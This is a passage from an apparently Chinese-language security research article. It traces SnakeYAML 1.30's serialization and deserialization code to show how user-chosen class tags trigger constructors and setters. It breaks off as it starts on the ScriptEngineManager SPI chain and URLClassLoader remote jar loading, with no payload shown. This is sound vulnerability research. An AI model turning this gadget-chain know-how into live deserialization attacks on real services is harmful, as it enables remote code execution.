SnakeYAML 是一个用于解析和生成 YAML（YAML Ain't Markup Language）格式数据的开源 Java 库。YAML 以其简洁和可读性强的特点，广泛应用于配置文件、数据序列化等领域。SnakeYAML 完全支持 YAML 1.1 规范，能够处理 UTF-8 和 UTF-16 编码，支持将 Java 对象序列化为 YAML，以及从 YAML 反序列化为 Java 对象。

在SnakeYAML1.x版本中，由用户控制自己要反序列化的类，比如我可以指定这么一段数据`!!org.meta.Student {age: 26, des: 安全研究员, name: erosion2020, sex: man}` ，snakeYaml拿到这份数据后会帮我创建一个`org.meta.Student`对象，再加上snakeYAML做了其他一些危险操作，如调用了目标对象的`getter/setter`方法，这就会导致可能触发意想不到的恶意代码，从而导致代码执行。

在开始分析前，使用mvn加入以下依赖：

```xml
<!-- https://mvnrepository.com/artifact/org.yaml/snakeyaml -->
<dependency>
    <groupId>org.yaml</groupId>
    <artifactId>snakeyaml</artifactId>
    <version>1.30</version>
</dependency>
```

该漏洞属于SnakeYAML的漏洞并且利用对JDK版本没有要求，我这里使用的JDK版本是：`JDK8u421`

## 代码分析

SnakeYAML的分析和FastJSON的分析是一样的，都是先搞明白序列化和反序列化的过程，知道在反序列化的时候会产生哪些危险操作，如`getter/setter`方法的调用等，从而再去寻找可被利用的攻击链。

### Demo

在常规的snakeyaml的序列化中，会调用一个`dump`方法，该方法把一个对象转换成一个字符串，这是一个简单的示例。

`sytest.Student`类：

```java
package sytest;

public class Student {
    private String name;
    private Integer age;
    public String sex;
    protected String des;
    
    public String getDes() { return des; }
    public void setDes(String des) { this.des = des; }
    public String getSex() { return sex; }
    public void setSex(String sex) { this.sex = sex; }
    public String getName() { return name; }
    public void setName(String name) { this.name = name; }
    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }
    @Override
    public String toString() {
        return "Student{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", sex='" + sex + '\'' +
                ", des='" + des + '\'' +
                '}';
    }
}
```

`DemoTest`类：

```java
package sytest;

import org.yaml.snakeyaml.Yaml;

public class DemoTest {
    public static void main(String[] args) throws Exception {
        String serialize = serialize();
        deserialize(serialize);
    }
	// 反序列化
    public static void deserialize(String serialize){
        Yaml yaml = new Yaml();
        Student load = yaml.load(serialize);
        System.out.println(load);
        Student student = yaml.loadAs(serialize, Student.class);
        System.out.println(student);
    }
	// 序列化
    public static String serialize(){
        Student student = new Student();
        student.setName("erosion2020");
        student.setAge(26);
        student.setSex("男");
        student.setDes("安全研究员");
        Yaml yaml = new Yaml();
        String dump = yaml.dump(student);
        System.out.println(dump);
        return dump;
    }
}
```

运行这份代码，将会执行最基本的序列化和反序列化操作。然后我们来分析SnakeYaml的序列化和反序列化都执行了哪些操作。

### 序列化

这里的关键就是跟踪`dump`方法即可，我们看一下关键的调用逻辑。

* Yaml.dump(Object data)								这里给Object套了一层List
  * Yaml.dumpAll(Iterator<? extends Object> data)			这里给Object套了一层List
    * Yaml.dumpAll(data, StringWriter, null);	定义一个字符串输出流StringWriter
      * new Serializer(new Emitter(StringWriter, options), resolver, options, null);
      * Serializer.open()	开始反序列化，这个在内部封装了一个状态叫做StartEvent(开始事件)
      * Representer.represent(data.next())	data.next就是咱们的Student，又从List中取出来了
        * node = BaseRepresenter.representData(Object data);	将对象转换成统一的Node类型
          * RepresentJavaBean.representData(Object data);	使用Bean解析器解析对象
            * Set<Property> RepresentJavaBean.getProperties(); 	获取Student中的所有属性。
              * PropertyUtils.getProperties(Student.Class)
                * PropertyUtils.getProperties(Student.Class, BeanAccess)
                  * PropertyUtils.createPropertySet(Student.Class, BeanAccess)
                    * PropertyUtils.getPropertiesMap(Student.Class, BeanAccess)
                      * Field Getter/Setter = Introspector.getBeanInfo(Student.Class)
                      * Field = Student.Class.getDeclaredFields()
                      * if: Field.isNotStatic、Field.isNotTransient、Field.isPublic
                        * 将public字段的Method Property修改为直接使用字段访问的Field Property
            * Representer.representJavaBean(Set<Property>, javabean)	把Student属性和值封装成MappingNode
        * Serializer.serialize(node)					这个是真的产生序列化数据的地方
          * Emitter.emit(new DocumentStartEvent(xxxxxx))	这个就是开始事件
          * serializeNode(node, null)				这个是一个递归方法，用来处理所有的node
            * switch
            * case: scalar
              * Emitter.emit(new ScalarEvent(xxxxx))	格式化数据并将其写入到StringWriter中
            * case: default
              * serializeNode(key, mnode)			递归处理key
              * serializeNode(value, mnode)			递归处理value
          * Emitter.emit(new DocumentEndEvent(xxxxxx))	这个就是结束事件
      * Serializer.close()								结束反序列化，这个对应的是EndEvent(结束事件)
    * StringWriter.toString()
  * return StringWriter.toString();							将格式化后的字符串返回

其实，这么看下来的话，感觉还是比较简单的，但是在实际debug的时候还是需要多debug几遍，然后分析具体的逻辑调用的。

这里给我分析几个关键方法吧，这几个方法都是序列化逻辑最复杂、最关键的方法。

#### Base.representData

BaseRepresenter.representData

这段代码是把Student格式化的方法，其实主要就是看data是什么类型的比如是Integer、Boolean这种的，就会获取到一个对应类型的解析器来解析这个data，如果不是基础类型的话，最后会命中一个JavaBean的解析器。

而这里的data是一个Student类型的对象，所以最终会调用JavaBean解析器。

```java
protected final Node representData(Object data) {
    objectToRepresent = data;
    // representedObjects 是一个 缓存（Map），存储了之前已经转换过的对象。
	// 如果 data 已经被转换过，就直接返回，避免重复转换（避免递归循环）。
    if (representedObjects.containsKey(objectToRepresent)) {
        Node node = representedObjects.get(objectToRepresent);
        return node;
    }
    // nullRepresenter 负责处理 null 值，返回一个特殊的 Node（一般是 YAML 的 null 表示）。
    if (data == null) {
        Node node = nullRepresenter.representData(null);
        return node;
    }
    // representers 是一个 映射表，存储了每种 Java Class 对应的 Representer。
	// 如果 data 的 Class 有直接匹配的 Representer，就调用 representData(data) 进行转换。
    Node node;
    Class<?> clazz = data.getClass();
    if (representers.containsKey(clazz)) {
        Represent representer = representers.get(clazz);
        node = representer.representData(data);
    } else {
        // multiRepresenters 存储了支持多态的 Representer
        // 如果 data 的 Class 不是确切匹配，但它是某个 multiRepresenters 里的子类，则使用对应的 Representer
        // Map 类型可能匹配 HashMap、LinkedHashMap
		// List 类型可能匹配 ArrayList、LinkedList
        for (Class<?> repr : multiRepresenters.keySet()) {
            if (repr != null && repr.isInstance(data)) {
                Represent representer = multiRepresenters.get(repr);
                node = representer.representData(data);
                return node;
            }
        }
		// 如果前面都没有匹配到适合的 Representer，则使用
        // multiRepresenters.get(null) 作为默认的 Representer
        if (multiRepresenters.containsKey(null)) {
            Represent representer = multiRepresenters.get(null);
            node = representer.representData(data);
        } else {
            // 若仍然没有，就用 representers.get(null) 作为兜底
            // 这个representers.get(null);获取到的其实就是JavaBean解析器
            Represent representer = representers.get(null);
            node = representer.representData(data);
        }
    }
    return node;
}
```

因为Student类是无法满足前边的条件的，所以最后命中了`representers.get(null)`获取到了JavaBean的解析器

#### JavaBean.representData

RepresentJavaBean.representData

先看一下`RepresentJavaBean`的定义吧，如下：

```java
// 首先是RepresentJavaBean这个类实现了 Represent 接口
protected class RepresentJavaBean implements Represent {
    public Node representData(Object data) {
        // getProperties(data.getClass())：获取JavaBean的所有可序列化属性
        // representJavaBean：将JavaBean转换为 YAML 结构。
        return representJavaBean(getProperties(data.getClass()), data);
    }
}
```

然后看一下`representJavaBean`这个方法：

```java
protected MappingNode representJavaBean(Set<Property> properties, Object javaBean) {
   	// 定义一个NodeTuple这个会作为MappingNode中的value存在
    // 其实这个东西就是和Student中对应的属性，所以这里的size就是properties.size()
    List<NodeTuple> value = new ArrayList<NodeTuple>(properties.size());
    // Tag 代表对象的类型信息（例如 !!com.example.User）。
    Tag tag;
    // classTags是一个映射表（Map），如果javaBean关联了自定义 Tag，就用它；
    Tag customTag = classTags.get(javaBean.getClass());
    // 否则 默认使用javaBean的Class名称作为 Tag
    // 就像是这样：!!sytest.Student
    tag = customTag != null ? customTag : new Tag(javaBean.getClass());
    // MappingNode 是 YAML 对象映射结构，类似于 JSON 的 { key: value }
    // value 存储 所有属性的键值对（NodeTuple）
    MappingNode node = new MappingNode(tag, value, FlowStyle.AUTO);
    // representedObjects用来缓存已经转换过的对象（避免循环引用）
    representedObjects.put(javaBean, node);
    DumperOptions.FlowStyle bestStyle = FlowStyle.FLOW;
    for (Property property : properties) {
        // 遍历properties，取出JavaBean的每个属性值memberValue
        Object memberValue = property.get(javaBean);
        // 如果memberValue关联了自定义Tag，就是用自定义Tag
        Tag customPropertyTag = memberValue == null ? null
                : classTags.get(memberValue.getClass());
        // 调用representJavaBeanProperty()将属性转换为 NodeTuple（键值对）。
        // 其实处理数据的重点就在这里
        NodeTuple tuple = representJavaBeanProperty(javaBean, property, memberValue,
                customPropertyTag);
        if (tuple == null) {
            continue;
        }
        // 如果属性键值对中包含非纯文本（如 !!int 或 !!map），就强制使用BLOCK样式
        // Flow紧凑格式：{ key: value }
        // Block（结构化格式）：
        // key:
        //	value
        if (!((ScalarNode) tuple.getKeyNode()).isPlain()) {
            bestStyle = FlowStyle.BLOCK;
        }
        
        Node nodeValue = tuple.getValueNode();
        if (!(nodeValue instanceof ScalarNode && ((ScalarNode) nodeValue).isPlain())) {
            bestStyle = FlowStyle.BLOCK;
        }
        value.add(tuple);
    }
    if (defaultFlowStyle != FlowStyle.AUTO) {
        node.setFlowStyle(defaultFlowStyle);
    } else {
        node.setFlowStyle(bestStyle);
    }
    return node;
}
```

在上一步其实我们还忽略了一个方法就是`getProperties`方法，这个方法中获取了JavaBean中的所有属性。

#### getProperties(Class)

PropertyUtils.getProperties(Class<? extends Object> type)

```java
protected Set<Property> getProperties(Class<? extends Object> type) {
    if (typeDefinitions.containsKey(type)) {
        return typeDefinitions.get(type).getProperties();
    }
    // 获取一个PropertyUtils，然后用来解析Class
    return getPropertyUtils().getProperties(type);
}
// 调用到了该方法
public Set<Property> getProperties(Class<? extends Object> type) {
    return getProperties(type, beanAccess);
}
public Set<Property> getProperties(Class<? extends Object> type, BeanAccess bAccess) {
    // 检查缓存readableProperties，如果已有该类的属性集合，则直接返回，避免重复计算
    if (readableProperties.containsKey(type)) {
        return readableProperties.get(type);
    }
    // 否则，调用createPropertySet(type, bAccess) 生成属性集合，并存入readableProperties 缓存
    Set<Property> properties = createPropertySet(type, bAccess);
    readableProperties.put(type, properties);
    return properties;
}
protected Set<Property> createPropertySet(Class<? extends Object> type, BeanAccess bAccess) {
    Set<Property> properties = new TreeSet<Property>();
    // 通过 getPropertiesMap(type, bAccess) 获取属性映射（Map<String, Property>）
    Collection<Property> props = getPropertiesMap(type, bAccess).values();
    for (Property property : props) {
        // 过滤出可读的属性（如果 allowReadOnlyProperties 为 false，还要求属性可写）
        if (property.isReadable() && (allowReadOnlyProperties || property.isWritable())) {
            properties.add(property);
        }
    }
    // 把所有得到的Class的属性返回
    return properties;
}
```

PropertyUtils.getPropertiesMap(Class<?> type, BeanAccess bAccess)

```java
protected Map<String, Property> getPropertiesMap(Class<?> type, BeanAccess bAccess) {
    // 先检查 propertiesCache 是否已有该类的属性映射，若有则直接返回，避免重复计算。
    if (propertiesCache.containsKey(type)) {
        return propertiesCache.get(type);
    }
    Map<String, Property> properties = new LinkedHashMap<String, Property>();
    boolean inaccessableFieldsExist = false;
    switch (bAccess) {
            // 按字段 (FIELD) 提取属性
        case FIELD:
            for (Class<?> c = type; c != null; c = c.getSuperclass()) {
			// 递归遍历类及其父类的 DeclaredFields（所有定义的字段）。
                for (Field field : c.getDeclaredFields()) {
                    int modifiers = field.getModifiers();
                    // 过滤掉 static 和 transient 修饰的字段。
                    if (!Modifier.isStatic(modifiers) && !Modifier.isTransient(modifiers)
                            && !properties.containsKey(field.getName())) {
                        // 记录 FieldProperty 并存入 properties。
                        properties.put(field.getName(), new FieldProperty(field));
                    }
                }
            }
            break;
        default:
				// JavaBean 规范 (METHOD) 提取属性
            try {
				// 通过 Introspector.getBeanInfo(type) 获取 JavaBean 的 PropertyDescriptor
				// 识别 getter/setter 方法，并创建 MethodProperty
                for (PropertyDescriptor property : Introspector.getBeanInfo(type)
                        .getPropertyDescriptors()) {
                    Method readMethod = property.getReadMethod();
                    // 过滤掉 getClass() 方法，避免把 getClass() 当作属性
                    // 处理 transient 关键字
                    if ((readMethod == null || !readMethod.getName().equals("getClass"))
                            && !isTransient(property)) {
                        properties.put(property.getName(), new MethodProperty(property));
                    }
                }
            } catch (IntrospectionException e) {
                throw new YAMLException(e);
            }
			// 记录 inaccessableFieldsExist 以检查是否有无法访问的字段。
            // 当一个字段是public的，同时没有static和transient修饰符的话
            // 则直接访问这个字段，而不去调用getter/setter方法
            // 所以这里是创建了一个FieldProperty
            // 正常一个private的字段会使用MethodProperty调用对应的getter方法
            for (Class<?> c = type; c != null; c = c.getSuperclass()) {
                for (Field field : c.getDeclaredFields()) {
                    int modifiers = field.getModifiers();
                    if (!Modifier.isStatic(modifiers) && !Modifier.isTransient(modifiers)) {
                        if (Modifier.isPublic(modifiers)) {
            			// 额外检查 public 字段，将 FieldProperty 添加到 properties。
                            properties.put(field.getName(), new FieldProperty(field));
                        } else {
                            inaccessableFieldsExist = true;
                        }
                    }
                }
            }
            break;
    }
    if (properties.isEmpty() && inaccessableFieldsExist) {
        throw new YAMLException("No JavaBean properties found in " + type.getName());
    }
    propertiesCache.put(type, properties);
    return properties;
}

```

到这里就把前期的准备工作做好了，后边的其实就是把这些字段属性`样式化`的过程了。

#### serializeNode

Serializer.serializeNode(Node node, null)

这个方法还挺复杂的是一个递归处理AST的方法，同时会把数据写入到字符串缓存中。这个代码看个大概就行了，不用深入。

```java
private void serializeNode(Node node, Node parent) throws IOException {
    // 如果node是一个AnchorNode（即 YAML 里 &anchor 形式的锚点），那么 getRealNode() 获取实际对应的节点，而不是锚点本身
    if (node.getNodeId() == NodeId.anchor) {
        node = ((AnchorNode) node).getRealNode();
    }
    // 获取该 node 在 YAML 输出中对应的锚点（如果有的话）
    String tAlias = this.anchors.get(node);
    // 检查当前node是否已经被序列化过
    if (this.serializedNodes.contains(node)) {
        // 如果已经序列化过，说明这个 node 在 YAML 中是 一个重复引用
        // 所以直接标记为 AliasEvent，表示使用 *alias 这种引用
        this.emitter.emit(new AliasEvent(tAlias, null, null));
    } else {
        // 当前node加入 serializedNodes，避免重复序列化
        this.serializedNodes.add(node);
        switch (node.getNodeId()) {
        // Scalar（标量）：基本类型，如字符串、数字、布尔值
        case scalar:
            ScalarNode scalarNode = (ScalarNode) node;
            serializeComments(node.getBlockComments());
            Tag detectedTag = this.resolver.resolve(NodeId.scalar, scalarNode.getValue(), true);
            Tag defaultTag = this.resolver.resolve(NodeId.scalar, scalarNode.getValue(), false);
            ImplicitTuple tuple = new ImplicitTuple(node.getTag().equals(detectedTag), node
                    .getTag().equals(defaultTag));
            ScalarEvent event = new ScalarEvent(tAlias, node.getTag().getValue(), tuple,
                    scalarNode.getValue(), null, null, scalarNode.getScalarStyle());
            this.emitter.emit(event);
            serializeComments(node.getInLineComments());
            serializeComments(node.getEndComments());
            break;
            // Sequence（序列）：列表（数组）
        case sequence:
            SequenceNode seqNode = (SequenceNode) node;
            serializeComments(node.getBlockComments());
            boolean implicitS = node.getTag().equals(this.resolver.resolve(NodeId.sequence,
                    null, true));
            this.emitter.emit(new SequenceStartEvent(tAlias, node.getTag().getValue(),
                    implicitS, null, null, seqNode.getFlowStyle()));
            List<Node> list = seqNode.getValue();
            for (Node item : list) {
                serializeNode(item, node);
            }
            this.emitter.emit(new SequenceEndEvent(null, null));
            serializeComments(node.getInLineComments());
            serializeComments(node.getEndComments());
            break;
        default:
            // Mapping（映射）：键值对（类似 Map 或 对象）
            serializeComments(node.getBlockComments());
            Tag implicitTag = this.resolver.resolve(NodeId.mapping, null, true);
            boolean implicitM = node.getTag().equals(implicitTag);
            MappingNode mnode = (MappingNode) node;
            List<NodeTuple> map = mnode.getValue();
            if (mnode.getTag() != Tag.COMMENT ) {
                this.emitter.emit(new MappingStartEvent(tAlias, mnode.getTag().getValue(), implicitM, null, null,
                        mnode.getFlowStyle()));
                for (NodeTuple row : map) {
                    Node key = row.getKeyNode();
                    Node value = row.getValueNode();
                    serializeNode(key, mnode);
                    serializeNode(value, mnode);
                }
                // 在这里就会记录对应的key:value，然后将其写入到字符串缓存中
                this.emitter.emit(new MappingEndEvent(null, null));
                serializeComments(node.getInLineComments());
                serializeComments(node.getEndComments());
            }
        }
    }
}
```

`Emitter.emit`方法就是最终记录字符串的地方。

### 反序列化

还是先来分析一下整个方法调用的过程吧，在这里的处理过程中，用到了递归，所以理解起来会费劲一些，推荐使用IDEA实际上手调试，这样才能真正理解里边的逻辑。

BaseConstructor.getConstructor(node)这个方法会识别具体的类型来调用不同的处理器，我这里写了两个两种，分别是处理JavaBean类型的：ConstructMapping，以及处理List类型的ConstructSequence。

其实如果只是`Student`类的反序列化，只需要了解`ConstructMapping`就行了，但是后边构造SPI利用链的时候会用到`ConstructSequence`，所以这里也就直接标明了。

* Yaml.load(String)

  * Yaml.loadFromReader(new StreamReader(yaml), Class<Student>)

    * BaseConstructor.setComposer(new Composer(xxxxxx))
    * BaseConstructor.getSingleData(Class<Student>)	
      * Node node = composer.getSingleData()					读取字符串并转换为snakeYAML统一的Node类型
      * BaseConstructor.constructDocument(node)				这里是真正创建实例的方法
        * BaseConstructor.constructObject(node)				------这个方法在后边会被递归调用处理参数
          * BaseConstructor.constructObjectNoCheck(node)
            * BaseConstructor.getConstructor(node)		这里根据node的类型不同会创建不同的处理Constructor
            * ---------ConstructMapping的情况(处理普通Java Bean对象)---------
            * ConstructMapping temp= ConstructYamlObject.getConstructor(node)
            * temp.construct(Node node)							这是ConstructMapping下的调用过程
              * Object obj = ConstructMapping.newInstance(node)	这里就创建对象实例了
              * ConstructMapping.constructJavaBean2ndStep(node, obj)	处理Bean中的字段属性
                * for tuple:node.getValue()						遍历node下的所有字段属性
                * Property property = getProperty(xxxxxxx)			获取所有字段属性方法
                * if 字段属性是Object类型
                  * BaseConstructor.constructObject(valueNode)	递归处理字段
                * property.set(xxxxx)							调用字段属性的setter方法
            * -----------------END--------------------
            * ---------ConstructSequence的情况(处理List、Set、不可变对象)----------
            * ConstructSequence temp= ConstructYamlObject.getConstructor(node)
            * temp.construct(Node node)						这是ConstructSequence下的调用过程
              * for node.getType().getDeclaredConstructors()	遍历所有的node中的构造方法
              * if(node的参数个数 == 构造函数的参数个数) possibleConstructors.add(constructor)
              * java.lang.reflect.Constructor<?> c = possibleConstructors.get(0)
              * Node argumentNode = node.getValue()
              * BaseConstructor.constructObject(argumentNode)	------从这里开始递归处理所有参数
              * c.newInstance(argumentList)					------调用该构造方法创建实例
            * -----------------END--------------------
            * BaseConstructor.finalizeConstruction(node, data)

这里还是会调重点的代码分析。

#### loadFromReader

通过解析一个YAML文档的输入流，将其解析并返回一个JavaObject。

```java
private Object loadFromReader(StreamReader sreader, Class<?> type) {
    // Composer可以理解为就是解析器
    Composer composer = new Composer(new ParserImpl(sreader,
            loadingConfig.isProcessComments()), resolver, loadingConfig);
    // 为constructor设置一个Composer
    constructor.setComposer(composer);
    // 调用constructor内部的getSingleData方法
    return constructor.getSingleData(type);
}
```

#### getSingleData

```java
    /**
     * Ensure that the stream contains a single document and construct it
     * 确保流包含单个YAML文档并构造它
     *
     * @param type the class of the instance being created
     * @param 参数：正在创建实例的Class类
     * @return constructed instance
     * @return 返回：创建的实例类
     * @throws ComposerException in case there are more documents in the stream
     * @throws ComposerException 当这个流中包含多个YAML文档时抛出错误
     */
    public Object getSingleData(Class<?> type) {
        // 这个过程没有什么好分析的，其实就是把YAML文档序列化成snakeYAML可以统一处理的Node类型
        // 注意到没有这里又再次调用了composer的SingleNode()方法
        final Node node = composer.getSingleNode();
        if (node != null && !Tag.NULL.equals(node.getTag())) {
            if (Object.class != type) {
                node.setTag(new Tag(type));
            } else if (rootTag != null) {
                node.setTag(rootTag);
            }
            // 从这个方法开始构造具体的实例了
            // 这个方法的参数就是Node类型
            return constructDocument(node);
        } else {
            Construct construct = yamlConstructors.get(Tag.NULL);
            return construct.construct(node);
        }
    }
```

#### constructDocument

```java
    /**
     * Construct complete YAML document. Call the second step in case of
     * recursive structures. At the end cleans all the state.
     * 构建YAML文档，如果是递归结果则会不断调用第二部，最后清理所有的状态
     * @param node root Node
     * @return Java instance
     */
    protected final Object constructDocument(Node node) {
        try {
            // 比较重要的是这个方法，这个方法在后边会不断递归调用
            Object data = constructObject(node);
            fillRecursive();
            return data;
        } catch (RuntimeException e) {
            if (wrappedToRootException && !(e instanceof YAMLException)) {
                throw new YAMLException(e);
            } else {
                throw e;
            }
        } finally {
            //clean up resources
            constructedObjects.clear();
            recursiveObjects.clear();
        }
    }
```

#### constructObject

```java
/**
 * Construct object from the specified Node. Return existing instance if the
 * node is already constructed.
 * 从指定节点构造对象。如果节点已构造，则返回现有实例。
 * @param node Node to be constructed
 * @return Java instance
 */
protected Object constructObject(Node node) {
    if (constructedObjects.containsKey(node)) {
        return constructedObjects.get(node);
    }
    // 如果该对象还没有被构造过的话，则调用constructObjectNoCheck方法
    return constructObjectNoCheck(node);
}

protected Object constructObjectNoCheck(Node node) {
    if (recursiveObjects.contains(node)) {
        throw new ConstructorException(null, null, "found unconstructable recursive node",
                node.getStartMark());
    }
    recursiveObjects.add(node);
    // 这个地方是重点，这里会根据node的不同，获取到不同的Construct处理器。
    // 比如node是Class<Student>这种情况下，就会获取到ConstructMapping处理器
    // 如果node是Class<List<Student>>这种情况下，就会获取到ConstructSequence处理器
    Construct constructor = getConstructor(node);
    // 这里只需要分析constructor.construct方法就好，也就是分析ConstructMapping.construct和ConstructSequence.construct这两个就行了，我们分别分析一下
    // 其他的类型和咱们的安全研究就没啥太大关系了，所以不需要分析
    Object data = (constructedObjects.containsKey(node)) ? constructedObjects.get(node)
            : constructor.construct(node);

    finalizeConstruction(node, data);
    constructedObjects.put(node, data);
    recursiveObjects.remove(node);
    if (node.isTwoStepsConstruction()) {
        constructor.construct2ndStep(node, data);
    }
    return data;
}
```

#### ConstructMapping

这个`ConstructMapping`是处理Map、JavaBean类型的处理类

##### construct

```java
/**
 * Construct mapping instance (Map, JavaBean) when the runtime class is
 * known.
 * 构造mapping类型实例(Map、JavaBean)
 */
protected class ConstructMapping implements Construct {
    public Object construct(Node node) {
        MappingNode mnode = (MappingNode) node;
        if (Map.class.isAssignableFrom(node.getType())) {
            if (node.isTwoStepsConstruction()) {
                return newMap(mnode);
            } else {
                return constructMapping(mnode);
            }
        } else if (Collection.class.isAssignableFrom(node.getType())) {
            if (node.isTwoStepsConstruction()) {
                return newSet(mnode);
            } else {
                return constructSet(mnode);
            }
        } else {
            // 创建当前node类型的实例类，比如Node为Class<Student>类型。
            // 那么这里就会创建Class<Student>类的实例
            Object obj = Constructor.this.newInstance(mnode);
            // 这个node是否是一个需要分两步构造的方法，这里如果是构造Class<Student>，肯定是不会命中这个if语句
            if (node.isTwoStepsConstruction()) {
                return obj;
            } else {
                // 处理node中的所有字段属性，比如Student中的age、name等字段属性
                return constructJavaBean2ndStep(mnode, obj);
            }
        }
    }
    
    
    // Constructor.this.newInstance(mnode)会调用到这个地方
    protected Object newInstance(Node node) {
        // ......
        // 调用newInstance方法
        return newInstance(Object.class, node);
        // ......
    }
    final protected Object newInstance(Class<?> ancestor, Node node) throws InstantiationException {
    	return newInstance(ancestor, node, true);
	}
    protected Object newInstance(Class<?> ancestor, Node node, boolean tryDefault)
        throws InstantiationException {

        // ......这里省略不太重要的代码
        // 获取默认构造方法
        java.lang.reflect.Constructor<?> c = type.getDeclaredConstructor();
        c.setAccessible(true);
        // 使用默认构造方法创建对象实例
        return c.newInstance();
        // ......这里省略不太重要的代码
	}
}
```

##### constructJavaBean2ndStep

在这个方法中分别会对key和value进行处理，对于一个JavaBean来说`value`很有可能是嵌套的对象对吧，所以这里有递归操作。

```java
protected Object constructJavaBean2ndStep(MappingNode node, Object object) {
    flattenMapping(node);
    Class<? extends Object> beanType = node.getType();
    List<NodeTuple> nodeValue = node.getValue();
    for (NodeTuple tuple : nodeValue) {
        ScalarNode keyNode;
        keyNode = (ScalarNode) tuple.getKeyNode();
        Node valueNode = tuple.getValueNode();
        // keys can only be Strings
        keyNode.setType(String.class);
        // 调用keyNode来创建对应的对象
        String key = (String) constructObject(keyNode);
        //......
        TypeDescription memberDescription = typeDefinitions.get(beanType);
        // ......
        // 获取MethodProperty，还记得序列化时的这个属性方法吗
        // 其实这里就是可以获取到属性字段的setter方法
        Property property = memberDescription == null ? getProperty(beanType, key)
                : memberDescription.getProperty(key);
        // .....
        // 如果value也是一个深层的对象，那么也调用constructObject来构造对象
        Object value = (memberDescription != null)
                            ? newInstance(memberDescription, key, valueNode)
                            : constructObject(valueNode);
        // ......
        if (memberDescription == null
                || !memberDescription.setProperty(object, key, value)) {
            // 调用MethodProperty的setter方法来设置具体的值
            property.set(object, value);
        }
    }
    return object;
}
```

#### ConstructSequence

这个`ConstructSequence`是处理List、Set、不可变对象类型的处理类

##### construct

```java
protected class ConstructSequence implements Construct {
    @SuppressWarnings("unchecked")
    public Object construct(Node node) {
        SequenceNode snode = (SequenceNode) node;
        // 判断(Set.class)是否是参数(node.getType())的父类或相同类。
        if (Set.class.isAssignableFrom(node.getType())) {
            if (node.isTwoStepsConstruction()) {
                throw new YAMLException("Set cannot be recursive.");
            } else {
                return constructSet(snode);
            }
            // 判断(Collection.class)是否是参数(node.getType())的父类或相同类。
        } else if (Collection.class.isAssignableFrom(node.getType())) {
            if (node.isTwoStepsConstruction()) {
                return newList(snode);
            } else {
                return constructSequence(snode);
            }
            // 判断node.getType()是否是数组
        } else if (node.getType().isArray()) {
            if (node.isTwoStepsConstruction()) {
                return createArray(node.getType(), snode.getValue().size());
            } else {
                return constructArray(snode);
            }
        } else {
            // 重点关注这个地方，SPI链中就是触发的这块的逻辑
            List<java.lang.reflect.Constructor<?>> possibleConstructors = new ArrayList<java.lang.reflect.Constructor<?>>(
                    snode.getValue().size());
            for (java.lang.reflect.Constructor<?> constructor : node.getType()
                    .getDeclaredConstructors()) {
                // 获取所有符合node参数列表的大小的构造方法
                if (snode.getValue().size() == constructor.getParameterTypes().length) {
                    // 把符合条件的构造方法都放到possibleConstructors集合中
                    possibleConstructors.add(constructor);
                }
            }
            if (!possibleConstructors.isEmpty()) {
                // 如果possibleConstructors中只有一个构造方法
                if (possibleConstructors.size() == 1) {
                    // 处理所有的参数
                    Object[] argumentList = new Object[snode.getValue().size()];
                    java.lang.reflect.Constructor<?> c = possibleConstructors.get(0);
                    int index = 0;
                    for (Node argumentNode : snode.getValue()) {
                        Class<?> type = c.getParameterTypes()[index];
                        // set runtime classes for arguments
                        argumentNode.setType(type);
                        // 构造参数对象，这里开始递归了。
                        argumentList[index++] = constructObject(argumentNode);
                    }

                    try {
                        // 递归完毕后调用该构造方法来创建一个实例对象并返回
                        c.setAccessible(true);
                        return c.newInstance(argumentList);
                    } catch (Exception e) {
                        throw new YAMLException(e);
                    }
                }
				// 其实后边的代码可以不用太关注，SPI的ScriptEngineManager攻击链只会触发上边的逻辑
                // 如果possibleConstructors中有多个构造方法
                // 这里也是一个递归调用，并且其参数是一个的List<Object>
                List<Object> argumentList = (List<Object>) constructSequence(snode);
                Class<?>[] parameterTypes = new Class[argumentList.size()];
                int index = 0;
                // 分别处理所有的参数
                for (Object parameter : argumentList) {
                    parameterTypes[index] = parameter.getClass();
                    index++;
                }
				// 遍历所有的构造方法
                for (java.lang.reflect.Constructor<?> c : possibleConstructors) {
                    Class<?>[] argTypes = c.getParameterTypes();
                    boolean foundConstructor = true;
                    for (int i = 0; i < argTypes.length; i++) {
                        // 如果参数是不匹配的则直接退出
                        if (!wrapIfPrimitive(argTypes[i]).isAssignableFrom(parameterTypes[i])) {
                            foundConstructor = false;
                            break;
                        }
                    }
                    // 如果找到了匹配的构造方法，则创建实例并退出
                    if (foundConstructor) {
                        try {
                            c.setAccessible(true);
                            return c.newInstance(argumentList.toArray());
                        } catch (Exception e) {
                            throw new YAMLException(e);
                        }
                    }
                }
            }
            throw new YAMLException(
                    "No suitable constructor with " + String.valueOf(snode.getValue().size())
                            + " arguments found for " + node.getType());

        }
    }
}
```

OK，分析到这里所有的序列化重点的过程我们已经非常清除了，现在总结一下有哪些危险的地方。

1. 创建对象时，会执行对象中的static代码块。
2. 创建一个对象后，会调用该对象字段的setter方法，比如Student这个类，会调用setAge方法。

## 攻击链

### ScriptEngineManager

`ScriptEngineManager`是SPI机制的一个实现类，关于SPI这里就不过多介绍了，详细的说明可以参考我的这篇文章[详解SPI机制](../../A%20-%20JAVA基础/SPI/main.md)

其实这个类就是实现了SPI机制，关键代码如下：

```java
public class ScriptEngineManager  {
    // 构造方法，该构造方法中可以指定一个ClassLoader
    // 比如URLClassLoader就可以允许从互联网(HTTP)中加载一个jar包
    public ScriptEngineManager(ClassLoader loader) {
        init(loader);
    }
    private void init(final ClassLoader loader) {
        globalScope = new SimpleBindings();
        engineSpis = new HashSet<ScriptEngineFactory>();
        nameAssociations = new HashMap<String, ScriptEngineFactory>();
        extensionAssociations = new HashMap<String, ScriptEngineFactory>();
        mimeTypeAssociations = new HashMap<String, ScriptEngineFactory>();
        // 从ClassLoader中加载类
        initEngines(loader);
    }
    private void initEngines(final ClassLoader loader) {
        Iterator<ScriptEngineFactory> itr = null;
        try {
            // 这里就是通过SPI规范来加载所有的实现类
            // 扫描META-INF/services/javax.script.ScriptEngineFactory中所有配置的类
            
            // ！！！这里会先加载一个NashornScriptEngineFactory类
            // ！！！然后才会加载自定义的ClassLoader，所以后边debug的时候忽略第一个ServiceLoader就行了
            ServiceLoader<ScriptEngineFactory> sl = AccessController.doPrivileged(
                // 这里其实就是用ServiceLoader来加载的
                new PrivilegedAction<ServiceLoader<ScriptEngineFactory>>() {
                    @Override
                    public ServiceLoader<ScriptEngineFactory> run() {
